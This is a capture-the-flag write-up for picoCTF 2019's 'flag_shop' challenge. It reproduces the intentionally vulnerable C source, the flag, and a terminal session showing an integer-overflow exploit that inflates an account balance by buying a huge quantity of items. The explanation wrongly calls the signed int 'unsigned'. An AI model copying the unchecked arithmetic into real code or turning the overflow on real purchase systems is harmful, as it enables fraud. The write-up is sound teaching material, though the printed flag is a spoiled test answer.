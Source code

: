 
# General Skills - flag_shop (300 points)

## Challenge

*There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 60851.*

![Challenge](../images/general_skills_flag_shop_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){

        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");

                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);

                if(bid == 1){
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}

```

## Flag

picoCTF{m0n3y_bag5_34c9a5f7}

## Walkthrough

Walking through the store, we guess that we have to buy the *1337 flags*. Guess what, we don't have enough money for this...

Looking at the store source, there is an intesting here :

```C
int total_cost = 0; (4 bytes / signed)
total_cost = 900*number_flags;
```

*total_cost* is defined as an *int*, i.e. a 4 bytes unsigned integer. Its value is linked to a user input: the number of flags to buy. So we can perform a nice unsigned interger overflow here, to get a negative value and so more money :)

Unsigned int values range from -2,147,483,648 to 2,147,483,647. Divided by 900, we just have to buy more than 2,386,092‬ flags to produce an integer overflow so that `account_balance - total_cost` does not overflow (else our overflow is going to cause another overflow and a negative balance...).

Let's try with 2,386,095 flags :

```bash
root@kali:~# nc 2019shell1.picoctf.com 60851
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

I'm rich !, now the flag :

```bash
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_34c9a5f7}
```
